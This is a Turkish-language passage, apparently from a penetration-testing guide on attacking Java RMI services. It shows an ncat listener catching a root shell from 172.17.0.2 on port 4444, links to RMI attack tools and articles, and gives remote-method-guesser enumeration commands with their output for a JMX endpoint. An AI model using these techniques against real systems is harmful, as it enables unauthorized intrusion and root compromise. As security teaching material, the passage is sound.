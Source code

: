 ```
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45479.
id
uid=0(root) gid=0(root) groups=0(root)
```
Daha fazla bilgi bu makalelerde bulunabilir:

* [JEP 290'tan sonra Java RMI hizmetlerine saldırı](https://mogwailabs.de/de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
* [Metot Tahmini](https://github.com/qtc-de/remote-method-guesser/blob/master/docs/rmg/method-guessing.md)
* [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
* [rmiscout](https://bishopfox.com/blog/rmiscout)

Tahmin etmenin yanı sıra, karşılaşılan _RMI_ hizmetinin arayüzü veya hatta uygulaması için arama motorlarında veya _GitHub_ üzerinde de arama yapmalısınız. _Bağlı ad_ ve uygulanan sınıf veya arayüzün adı burada faydalı olabilir.

## Bilinen Arayüzler

[remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) sınıfları veya arayüzleri, eğer araçtaki bilinen _RMI hizmetleri_ iç veritabanında listelenmişse `known` olarak işaretler. Bu durumlarda, ilgili _RMI hizmeti_ hakkında daha fazla bilgi almak için `known` eylemini kullanabilirsiniz:
```
$ rmg enum 172.17.0.2 1090 | head -n 5
[+] RMI registry bound names:
[+]
[+] 	- jmxrmi
[+] 		--> javax.management.remote.rmi.RMIServerImpl_Stub (known class: JMX Server)
[+] 		    Endpoint: localhost:41695  TLS: no  ObjID: [7e384a4f:17e0546f16f:-7ffe, -553451807350957585]

$ rmg known javax.management.remote.rmi.RMIServerImpl_Stub
[+] Name:
[+] 	JMX Server
[+]
[+] Class Name:
[+] 	- javax.management.remote.rmi.RMIServerImpl_Stub
[+] 	- javax.management.remote.rmi.RMIServer
[+]
[+] Description:
[+] 	Java Management Extensions (JMX) can be used to monitor and manage a running Java virtual machine.
[+] 	This remote object is the entrypoint for initiating a JMX connection. Clients call the newClient
[+] 	method usually passing a HashMap that contains connection options (e.g. credentials). The return
[+] 	value (RMIConnection object) is another remote object that is when used to perform JMX related
[+] 	actions. JMX uses the randomly assigned ObjID of the RMIConnection object as a session id.
[+]
[+] Remote Methods:
[+] 	- String getVersion()
[+] 	- javax.management.remote.rmi.RMIConnection newClient(Object params)
[+]
[+] References:
[+] 	- https://docs.oracle.com/javase/8/docs/technotes/guides/management/agent.html
[+] 	- https://github.com/openjdk/jdk/tree/master/src/java.management.rmi/share/classes/javax/management/remote/rmi
[+]
[+] Vulnerabilities:
[+]
```